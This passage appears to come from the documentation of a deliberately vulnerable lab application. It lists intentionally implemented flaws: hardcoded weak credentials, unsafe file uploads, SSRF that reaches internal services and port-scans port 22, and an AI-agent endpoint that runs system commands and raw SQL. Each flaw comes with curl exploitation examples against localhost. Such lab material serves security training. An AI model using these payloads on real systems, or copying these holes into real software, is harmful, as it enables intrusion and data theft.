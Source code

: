 **Issues**:
- Weak password (admin123)
- No rate limiting
- No session timeout
- Hardcoded credentials

### A08:2021 - Software and Data Integrity Failures
**Status**: ✅ Implemented
**Location**: `/api/upload`
**Vulnerability**: Unsafe file uploads
**Exploitation**:
```bash
# Upload malicious file
curl -X POST http://localhost:8080/api/upload \
  -F "file=@malicious_file.txt"
```

**Issues**:
- No file type validation
- No file size limits
- Unsafe file path handling

### A10:2021 - Server-Side Request Forgery (SSRF)
**Status**: ✅ Implemented
**Location**: `/api/fetch_url`
**Vulnerability**: Unvalidated URL fetching
**Exploitation**:
```bash
# Access internal services
curl -X POST http://localhost:8080/api/fetch_url \
  -H "Content-Type: application/json" \
  -d '{"url": "http://localhost:8080/api/debug"}'

# Port scanning attempt
curl -X POST http://localhost:8080/api/fetch_url \
  -H "Content-Type: application/json" \
  -d '{"url": "http://127.0.0.1:22"}'
```

## 🤖 Agent Functionality Vulnerabilities

### Agent Task Execution
**Status**: ✅ Implemented
**Location**: `/api/agent/execute`
**Vulnerability**: Multiple attack vectors through agent interface

**Exploitation Examples**:
```bash
# System command execution
curl -X POST http://localhost:8080/api/agent/execute \
  -H "Content-Type: application/json" \
  -d '{"task": "system:whoami", "user_id": 1}'

# SQL injection through agent
curl -X POST http://localhost:8080/api/agent/execute \
  -H "Content-Type: application/json" \
  -d '{"task": "sql:SELECT * FROM users", "user_id": 1}'

# SSRF through agent
curl -X POST http://localhost:8080/api/agent/execute \
  -H "Content-Type: application/json" \
  -d '{"task": "fetch:http://localhost:8080/api/debug", "user_id": 1}'
```
